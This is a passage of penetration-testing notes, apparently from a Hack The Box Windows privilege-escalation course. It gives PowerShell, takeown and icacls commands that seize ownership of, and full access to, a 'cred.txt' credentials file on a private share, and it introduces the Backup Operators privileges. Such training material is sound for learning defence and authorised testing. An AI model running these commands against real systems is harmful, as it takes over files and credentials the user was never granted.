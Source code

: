 ```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

The file owner is hidden, back up until you can see an owner.

```
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Once the owner has been flagged, take the ownership of the file.

```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

Now you should see the owner with the previous PowerShell command.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```

It's possible to update the file ACL if there are restrictions.

```
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

Now `htb-student` has full access for this file.

## Windows Group Privileges

### Windows Built-in Groups

* List of built-in groups : [link](https://ss64.com/nt/syntax-security\_groups.html)
* List of privileged accounts : [link](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory)

### Backup Operators

It grants `SeBackupPrivilege` and `SeRestorePrivileges` to its membership. This will let us copy a file from a folder, event if there is no ACE for us in the folder's ACL.

```
PS> whoami /groups
PS> whoami /priv
```

<figure><img src="../../../../.gitbook/assets/groups.png" alt=""><figcaption></figcaption></figure>
